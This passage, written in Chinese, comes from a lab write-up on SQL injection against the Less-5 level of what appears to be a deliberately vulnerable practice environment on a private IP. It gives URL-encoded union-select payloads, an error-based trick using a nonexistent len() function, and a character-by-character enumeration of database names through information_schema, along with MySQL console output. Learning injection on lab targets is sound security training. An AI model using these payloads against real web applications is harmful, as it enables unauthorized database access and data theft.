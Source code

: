 从第几个数字开始截取几个数字，那么截取一个数字就是`mid(some_name,n,1)`

所以我们这里就可以`http://10.101.177.100:9990/Less-5/?id=-1%27%20union%20select%201,2,mid(database(),1)--+`

这里如果有回显那么应该会返回，但是没有。但是如果我们让他报错呢？  

`http://10.101.177.100:9990/Less-5/?id=-1%27%20union%20select%201,2,len(mid(database(),1))--+`

![](assets/markdown-img-paste-20180418145157120.png)

这里就看到了报错，因为`len()`函数并不存在

```
mysql> select len(mid(database(),1));

ERROR 1305 (42000): FUNCTION security.len does not exist
```

`http://10.101.177.100:9990/Less-5/?id=-1%27%20union%20select%201,2,mid((select%20schema_name%20from%20information_schema.schemata%20limit%200,1),1,1)%3E%27h%27--+`

![](assets/markdown-img-paste-20180418150737197.png)

```
mysql> select mid((select schema_name from information_schema.schemata limit 0,1),1,1)>'h';
+------------------------------------------------------------------------------+
| mid((select schema_name from information_schema.schemata limit 0,1),1,1)>'h' |
+------------------------------------------------------------------------------+
|                                                                            1 |
+------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select mid((select schema_name from information_schema.schemata limit 0,1),1,1)>'i';
+------------------------------------------------------------------------------+
| mid((select schema_name from information_schema.schemata limit 0,1),1,1)>'i' |
+------------------------------------------------------------------------------+
|                                                                            0 |
+------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```
